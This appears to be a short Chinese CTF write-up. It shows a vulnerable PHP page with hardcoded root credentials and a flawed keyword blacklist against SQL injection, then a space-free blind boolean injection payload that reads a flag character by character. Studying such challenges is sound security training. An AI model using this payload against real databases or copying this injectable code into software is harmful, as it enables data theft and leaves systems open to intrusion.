 ```php
<?php
$dbuser='root';
$dbpass='root';

function safe($sql){
    #被过滤的内容 函数基本没过滤
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
if(isset($_POST['id'])){
    $id = $_POST['id'];
}else{
    die();
}
$db = mysql_connect("localhost",$dbuser,$dbpass);
if(!$db){
    die(mysql_error());
}   
mysql_select_db("ctf",$db);

if(safe($id)){
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");
    
    if($query){
        $result = mysql_fetch_array($query);
        
        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
        var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
}
```

考虑利用if语句

```sql
if(ascii(substr((select(flag)from(flag),1,1))=102,1,2)
/*if(exp1,exp2,exp3)
   如果exp1为真
   返回exp2,否则返回exp3
*/
```
